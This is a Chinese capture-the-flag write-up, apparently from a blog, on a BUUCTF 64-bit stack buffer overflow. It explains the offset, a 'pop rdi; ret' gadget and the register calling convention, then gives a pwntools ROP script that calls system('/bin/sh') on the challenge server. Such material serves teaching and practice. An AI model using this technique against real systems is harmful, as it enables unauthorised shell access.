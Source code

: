 ### 64 位 ROP

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/677f60a8d0e0a243d4f278e9.jpg)

扔进 IDA64 中反编译，发现调用了一个函数，进去看看

![](https://pic1.imgdb.cn/item/677f60bfd0e0a243d4f278ec.jpg)

缓存区 buf 大小居然为 200，肯定存在溢出

![](https://pic1.imgdb.cn/item/677f60e1d0e0a243d4f278f7.jpg)

双击 buf 可以算出需要 136 个字节垃圾数据

![](https://pic1.imgdb.cn/item/677f60f9d0e0a243d4f278f8.jpg)

没有给后门函数，但是给了相关字符串，需要构造 ROP

![](https://pic1.imgdb.cn/item/677f610fd0e0a243d4f278ff.jpg)

64 位系统还格外需要一个 `pop rdi; ret` 指令，使用工具 ROPgadget 获取其地址

`pop rdi; ret` 是一个非常常见的 ROP gadget，它的作用是将栈上的一个值弹出并放入 **rdi** 寄存器中，然后执行 `ret` 跳转到下一个指令

![](https://pic1.imgdb.cn/item/677f612dd0e0a243d4f27904.jpg)

构造 payload，`pop rdi` 在前，参数在函数前面

对于64位的Linux系统，函数的参数是这样传递的：

- **rdi**: 第一个参数
- **rsi**: 第二个参数
- **rdx**: 第三个参数
- **rcx**: 第四个参数
- **r8**: 第五个参数
- **r9**: 第六个参数

如果参数个数超过6个，那么剩余的参数会被推入栈中

```python
from pwn import *

p = remote("node5.buuoj.cn",28172)

binsh = 0x0600A90
sys_addr = 0x0400603
pop_rdi = 0x04006b3

payload = b'a' * 136 + p64(pop_rdi) + p64(binsh) + p64(sys_addr)

p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/677f618ad0e0a243d4f27915.jpg)